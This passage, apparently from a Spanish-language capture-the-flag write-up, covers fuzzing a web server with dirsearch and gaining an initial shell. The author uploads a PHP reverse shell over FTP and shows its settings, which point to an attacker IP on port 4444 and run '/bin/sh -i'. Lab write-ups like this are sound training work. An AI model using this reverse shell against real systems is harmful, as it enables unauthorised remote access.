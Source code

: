 
### Fuzz

Utilice dirsearch y pude encontrar un directorio que esta todo lo que se encuentra en el ftp:
* /files

## Shell Inicial (PHP reverse)

La idea es que como ponemos subir archivo y ejecutarlo, subo una reverse de php al ftp para luego visualizarla desde la pagina:

```bash
ftp> put reverse.php
local: reverse.php remote: reverse.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5494 bytes sent in 0.00 secs (21.5617 MB/s) 
```

Cambiamos estos parametros:

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.9.206.201';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

![](/images_blog/img_startup/Pastedimage20210517170517.png)
![Pastedimage20210517170517](https://user-images.githubusercontent.com/76759292/128111109-3fd9331e-4ba6-4c18-b9b0-cd5863d22332.png)
